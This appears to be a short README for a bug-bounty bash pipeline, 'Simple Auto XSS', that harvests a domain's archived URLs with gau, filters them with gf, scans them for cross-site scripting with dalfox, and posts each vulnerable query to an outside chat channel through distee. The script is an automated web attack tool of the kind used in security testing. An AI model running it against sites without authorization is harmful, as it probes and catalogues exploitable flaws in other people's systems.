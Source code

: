 # Simple Auto XSS

Crafted by : <a href="https://twitter.com/verry__d"><img src="https://img.shields.io/twitter/follow/verry__d.svg?logo=twitter"></a>

## Tools
- <a href="https://github.com/lc/gau"> gau </a>
- <a href="https://github.com/tomnomnom/gf"> gf </a>
- <a href="https://github.com/1ndianl33t/Gf-Patterns"> gf patterns </a>
- <a href="https://github.com/dwisiswant0/unew"> unew </a>
- <a href="https://github.com/hahwul/dalfox"> dalfox </a>
- <a href="https://github.com/vsec7/distee"> distee </a>

## Script

```bash
#!/usr/bin/env bash
# XSS
# Crafted by github.com/vsec7
# ./x domain.com

echo $1 \
    | gau -subs -b jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt \
    | gf xss \
    | unew \
    | dalfox pipe \
        --multicast \
        --no-color \
        --found-action "echo @@query@@ | distee -c 8174070495026xxxxx -t '[ @@type@@ ]'"
```
